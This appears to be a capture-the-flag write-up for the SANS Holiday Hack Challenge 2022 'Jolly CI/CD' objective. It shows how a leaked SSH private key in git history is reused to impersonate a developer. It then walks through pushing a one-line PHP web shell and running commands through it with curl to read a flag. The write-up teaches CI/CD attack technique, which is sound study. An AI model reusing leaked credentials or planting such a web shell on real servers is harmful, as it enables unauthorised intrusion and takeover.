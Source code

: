 # OBJECTIVE 3 - Recover the Elfen Ring #
## 3C - Jolly CI/CD ##

### OBJECTIVE : ###
>Exploit a CI/CD pipeline.  Get hints for this challenge from Tinsel Upatree in the Elfen Ring.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 3C</summary>
  
>-  The thing about Git is that every step of development is accessible – even steps you didn’t mean to take!  `git log` can show code skeletons.
>-	If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
</details>

#  

## PROCEDURE : ##

First things first – let’s clone into the git repository that Tinsel Upatree told us about:
```console
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
$ cd wordpress.flag.net.internal
```

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/fb899de5-1778-440b-a331-4f27630283e9)
Tinsel Upatree conveniently tells us that; “WHOOPS” - at some point he committed something to git by mistake.  Having already completed the Trufflehog Search Objective, I immediately thought to bring up the git logs to see what commits have been made to the project.  
```console
$ git log
```
One of the commits is conveniently labelled with the comment `whoops`.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/fdc157ff-fec3-48df-98dc-e70834ffef7a)

So, let’s have a look at what it contains:
```console
$ git show e19f653bde9ea3de6af21a587e41e7a909db1ca5
```
We can immediately see the contents of what appears to be a public and private key pair.  It looks like somebody committed the contents of their `.ssh` directory by mistake!  We can also see a user-name: `knee-oh` and email address: `sporx@kringlecon.com` for this commit which might come in handy later.
```console
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets

diff --git a/.ssh/.deploy b/.ssh/.deploy
new file mode 100644
index 0000000..3f7a9e3
--- /dev/null
+++ b/.ssh/.deploy
@@ -0,0 +1,7 @@
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
diff --git a/.ssh/.deploy.pub b/.ssh/.deploy.pub
new file mode 100644
index 0000000..8c0b43c
--- /dev/null
+++ b/.ssh/.deploy.pub
@@ -0,0 +1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

We can now use the information we have to create the necessary `id_rsa` files and hopefully be able to ssh into the repository and impersonate the user `knee-oh`.  To do this we need to copy and paste the private and public keys into two files called `id_rsa` and `id_rsa.pub` respectively – both of which are kept in the `.ssh` directory and set with permissions `chmod 600`.  [This website](https://gist.github.com/xirixiz/b6b0c6f4917ce17a90e00f9b60566278) was super helpful when it came to setting this up and testing it.
```console
$ mkdir /home/samways/.ssh
$ cd /home/samways/.ssh
$ touch id_rsa
$ nano id_rsa
```
 ### Contents of id_rsa: ###
 ```console
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
```console
$ chmod 600 id_rsa
$ touch id_rsa.pub
$ nano id_rsa.pub
```
### Contents of id_rsa.pub: ###
```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```
```console
$ chmod 600 id_rsa.pub
```
Now we can finally test to see if we can ssh correctly:
```console
$ ssh -T git@gitlab.flag.net.internal
```

And sure enough – we are served up a welcome banner saying **Welcome to GitLab, @knee-oh!**  Oh what a glorious sight!
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/9da7fa29-a6b8-48e1-8786-155c153196f8)

By this point I think I’ve got a pretty good idea of what needs to be done next.  The objective expects us to return a flag of some sort; so, we’ll probably need to gain access to the server hosting the Wordpress site.  If we are able to access knee-oh’s gitlab account with his credentials we should be able to push whatever we want to the web server – maybe even a RCE script.  But first let’s remove the downloaded repo and re-clone it with knee-oh’s credentials by using git clone with ssh://.
```console
$ cd /home/samways
$ rm -rf wordpress.flag.net.internal
$ git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
$ cd wordpress.flag.net.internal
```

Next, we can impersonate knee-oh by setting his username and email address:
```console
$ git config user.name “knee-oh”
$ git config user.email “sporx@kringlecon.com”
```

Now we can create a simple php script for **Remote Code execution (RCE)**, commit it and push it to the live server.
```console
$ echo ‘<?php echo shell_exec($_GET[“cmd”]);?>’ > letmein.php
$ git add letmein.php
$ git commit -m “hahaha” 
$ git push
```
Checking out the logs we can confirm that it looks as if knee-oh pushed the file to the server:
```console
$ git log
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/d3e45c53-86ca-46e7-bc5d-dedf5892b550)


 
We should now be able to call the Wordpress url using `curl` and pass on commands as arguments to the `php` and hopefully they will be executed by the webserver.  Surely enough by entering;
```console
$ curl http://wordpress.flag.net.internal/letmein.php?cmd=whoami
```
We get a reply from the webserver letting us know that our username is `www-data`.  Similarly, we can browse around the webserver using the `ls` command as follows to look at the root directory:
```console
$ curl http://wordpress.flag.net.internal/letmein.php?cmd=ls%20/.
```
Here we can see a file called `flag.txt` which we can look into by using `cat` in a similar fashion:
```console
$ curl http://wordpress.flag.net.internal/letmein.php?cmd=cat%20/./flag.txt
```
And there it is - the file contains the Elfen ring and our flag!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/484795ce-c6b7-493f-8827-c303be8ba270)

